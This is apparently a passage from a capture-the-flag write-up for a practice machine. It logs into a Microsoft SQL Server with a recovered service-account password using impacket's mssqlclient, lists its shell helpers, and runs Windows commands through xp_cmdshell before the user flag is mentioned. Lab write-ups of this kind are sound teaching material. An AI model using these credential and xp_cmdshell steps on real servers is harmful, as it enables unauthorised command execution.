We now have the mssql-svc password, which we use to login and run commands.

{% highlight bash %}
$python ~/impacket/examples/mssqlclient.py -windows-auth WORKSTATION/mssql-svc:corporate568@10.10.10.125
Impacket v0.9.20-dev - Copyright 2019 SecureAuth Corporation

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: None, New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(QUERIER): Line 1: Changed database context to 'master'.
[*] INFO(QUERIER): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232)
[!] Press help for extra shell commands
SQL> ?

     lcd {path}                 - changes the current local directory to {path}
     exit                       - terminates the server process (and this session)
     enable_xp_cmdshell         - you know what it means
     disable_xp_cmdshell        - you know what it means
     xp_cmdshell {cmd}          - executes cmd using xp_cmdshell
     sp_start_job {cmd}         - executes cmd using the sql server agent (blind)
     ! {cmd}                    - executes a local shell cmd

SQL> xp_cmdshell "dir c:\users"
output                                                                             

--------------------------------------------------------------------------------   

 Volume in drive C has no label.                                                   

 Volume Serial Number is FE98-F373                                                 

NULL                                                                               

 Directory of c:\users                                                             

NULL                                                                               

01/29/2019  12:41 AM    <DIR>          .                                           

01/29/2019  12:41 AM    <DIR>          ..                                          

01/28/2019  11:17 PM    <DIR>          Administrator                               

01/29/2019  12:42 AM    <DIR>          mssql-svc                                   

01/28/2019  11:17 PM    <DIR>          Public                                      

               0 File(s)              0 bytes                                      

               5 Dir(s)   6,597,021,696 bytes free                                 

NULL                                                                               

{% endhighlight %}

And get the user flag :)
